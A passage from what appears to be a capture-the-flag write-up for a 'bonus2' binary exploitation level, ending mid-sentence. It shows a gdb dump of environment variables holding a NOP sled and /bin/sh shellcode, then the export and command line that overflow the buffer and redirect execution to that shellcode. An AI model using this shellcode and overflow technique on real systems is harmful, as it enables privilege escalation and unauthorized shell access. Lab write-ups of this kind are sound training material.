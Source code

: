 ```bash
0xbffff9e9:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffab1:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffb79:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffc41:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffd09:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffd7a:	 "COLUMNS=120"
0xbffffd86:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffdd3:	 "MAIL=/var/mail/bonus2"
0xbffffde9:	 "_=/usr/bin/gdb"
0xbffffdf8:	 "PWD=/home/user/bonus2"
0xbffffe0e:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xbffffe91:	 "LINES=99"
0xbffffe9a:	 "SC=", 'Z' <repeats 100 times>, "1\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
(gdb)
```

Cool! Indeed the address was a few bytes above, now just add something to the
address to make sure we land on the `NOP` sled, and that will be our
`shellcode` address!

```raw
bffffe9c --> bffffeac
```

```bash
export SC=$(python -c "print '\x90'*100+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
./bonus2 $(python -c "print 'A'*40") $(python -c "print 'A'*18+'\xac\xfe\xff\xbf'")
```

And... It worked! I tried
